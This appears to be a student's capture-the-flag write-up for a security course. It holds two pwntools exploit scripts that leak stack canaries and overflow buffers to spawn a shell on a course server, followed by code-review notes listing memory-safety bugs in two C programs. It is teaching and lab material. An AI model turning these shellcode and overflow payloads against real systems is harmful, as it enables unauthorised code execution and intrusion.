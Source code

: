 shellcrack
===========================

Flag: COMP6447{study_for_midsem_it's_on_monday}

General overview of problems faced
-------------------------------------


Script/Command used
------------------
```
from pwn import *

shellcode = """
    push 6845231;
    push 1852400175;
    mov ebx, esp;
    mov eax, 0xb;
    mov ecx, 0;
    mov edx, 0;
    int 0x80;
"""
# p = process('./shellcrack')
p = remote("plzpwn.me","5001")
q = p.recv()
p.sendline('A'*0xf)
# q = p.recvline()[:-2]
q = p.recvuntil("!")[:-1]
can = u64(q[-9:-1])
ri= p.recvuntil('[')
add = int(p.recv(10),16)
payload = asm(shellcode)
p.recvuntil("].")
p.sendline(payload+'A'*(0x30-len(payload))+p64(can)+p32(add)*7)
p.interactive()
```

stack-dump2
=============

Flag: COMP6447{same_same_but_different}


General overview of problems faced
-------------------------------------


Script/Command used
------------------
```
from pwn import *

# context.log_level = 'debug'

# p = process('./stack-dump2')
p = remote("plzpwn.me","5000")
p.recvuntil("stack pointer ")
useful = p.recv(10)
p.recv()
p.sendline('c')
seg = p.recvuntil("-")[:-1]
win = int(seg, 16) + 1901
p.recv()
p.sendline('a')
p.recv()
p.sendline('5')
sent = (int(useful,16)  + 0x71 - 0x8)
p.sendline(p32(sent))
p.recv()
p.sendline('b')
p.recvuntil(": ")
canary = p.recv(4)
p.sendline('a')
p.recv()
attack = '0AAA' + 'A'*92 + canary + p32(win)*3
p.sendline(str(len(attack)+1))
p.sendline(attack)
p.recv()
p.sendline('d')
p.interactive()
```

web_server.c
=============
line 37: buffer overflow
line 72: doesn't take into account that "./webpath" has already been written to the buffer
line 91: accessing array element out of bounds, but dunno if you can do anything with that, also a bad exit condition cause you're expecting the user to enter "!!!" ???
line 113: format string exploit since input is user input and could contain format modifiers
line 116: action is 1024 bytes long, whereas path is only 100 so this can lead to buffer overflow
line 127: writing 1000 bytes to a 100 byte buffer seems problematic
line 174: forgot to break yo

python4.c
=============
line 33: read outside of array memory
line 82: this is not safe
line 101: size_t is unsigned which could cause problems if trynig to use it with NO_CHARACTER (-1)
not checking return value of malloc anywhere
line 121: just cause the comment says the length is not null doesn't make it so
line 397: wrong syntax
line 446: integer overflow
line 451: the comment was probably meant to have a TODO tag in front of it cause atm it is not checking for overflow


RE
=============
#include<stdio>
int f(int x, int y) {
    return (x+y)%6;
}
